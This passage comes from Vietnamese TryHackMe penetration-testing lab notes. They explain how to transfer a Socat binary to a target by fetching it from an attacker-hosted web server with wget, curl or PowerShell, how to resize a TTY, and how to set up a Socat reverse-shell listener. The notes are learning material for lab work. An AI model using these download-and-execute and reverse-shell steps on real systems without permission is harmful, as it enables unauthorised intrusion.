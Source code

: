 1. ***Chuyển tệp nhị phân Socat đến mục tiêu***:

- Trên máy tấn công, khởi động máy chủ web:

        sudo python3 -m http.server 80

- Trên mục tiêu, tải xuống Socat:

        wget <LOCAL-IP>/socat -O /tmp/socat
    
    hoặc: 

        curl <LOCAL-IP>/socat -o /tmp/socat

2. ***Cấp quyền thực thi và chạy Socat***:

        chmod +x /tmp/socat
        /tmp/socat <options>

Lưu ý: Trên Windows, có thể sử dụng Powershell để tải xuống Socat:

    Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows\Temp\socat.exe

***Thay đổi kích thước TTY***

Để sử dụng các trình soạn thảo văn bản hoặc chương trình yêu cầu kích thước terminal chính xác, cần điều chỉnh kích thước TTY.

1. ***Lấy kích thước terminal hiện tại***:

- Trên terminal, chạy:

        stty -a

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image5.png?raw=true)

- Ghi lại giá trị của rows và cols.

2. ***Thiết lập kích thước trên reverse/bind shell***:

        stty rows <number>
        stty cols <number>

- Thay < number > bằng giá trị tương ứng từ lệnh ***stty -a***.

**Task 6: Socat**

Socat tương tự Netcat ở một số khía cạnh nhưng lại khác biệt. Cách dễ nhất để hiểu Socat là nó hoạt động như một "cầu nối" giữa hai điểm. Trong ngữ cảnh này, hai điểm đó có thể là một cổng nghe và bàn phím, một cổng nghe và tệp, hoặc thậm chí hai cổng nghe. Socat kết nối hai điểm này lại với nhau.

**Reverse Shells**

Cú pháp của Socat phức tạp hơn so với Netcat. Dưới đây là cú pháp cơ bản để thiết lập một listener cho reverse shell:

    socat TCP-L:<port> -

=> Lệnh này tạo một listener trên cổng được chỉ định và kết nối nó với đầu vào tiêu chuẩn (stdin). Shell tạo ra không ổn định nhưng hoạt động trên cả Linux và Windows, tương đương với       
        